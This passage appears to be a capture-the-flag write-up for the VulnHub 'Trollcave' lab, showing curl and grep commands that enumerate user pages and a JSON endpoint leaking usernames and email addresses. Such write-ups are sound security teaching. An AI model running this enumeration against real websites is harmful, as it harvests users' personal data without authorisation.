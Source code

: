 Enumerate the users:
When we do 
```
curl -s http://192.168.251.9/users/1 
<ol class='user-blogs'><li class='blog-excerpt' id='blog-7'>
<img class="user_avatar" src="/uploads/King/crown.png" alt="Crown" width="80" height="80" />
<h1><a href="/blogs/7">Welcome to the TrollCave!</a></h1>
<div class='author'>
by
__<a href="/users/1">King</a>__
</div>
<p><p>The Trollcave is a community blogging website for people with a sense of humour. As long as you&#39;re not an idiot, we&#39;re very friendly. Registration is free, so <a href="/register">what are you waiting for</a>?...</p>
</p>
```
Thus for all users
```
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20} | grep -v 'href\|doesn' | grep -Po 'h1>.{2,}</h1' | sort -u

h1>anybodyhome's page</h1
h1>artemus's page</h1
h1>coderguy's page</h1
h1>cooldude89's page</h1
h1>dave's page</h1
h1>dragon's page</h1
h1>Ian's page</h1
h1>kev's page</h1
h1>King's page</h1
h1>MrPotatoHead's page</h1
h1>notanother's page</h1
h1>onlyme's page</h1
h1>Q's page</h1
h1>Sir's page</h1
h1>teflon's page</h1
h1>TheDankMan's page</h1
h1>xer's page</h1
```
Another way round this is:
```
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20}.json

h1>xer's page</h1
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20}.json
{
  "id": 1,
  "name": "King",
  "email": "king@trollcave.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.494Z",
  "updated_at": "2020-05-01T06:40:12.220Z"
}{
  "id": 2,
  "name": "dave",
  "email": "david@32letters.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.617Z",
  "updated_at": "2020-05-01T06:40:12.238Z"
}{
  "id": 3,
  "name": "dragon",
  "email": "dragon@trollcave.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.710Z",
```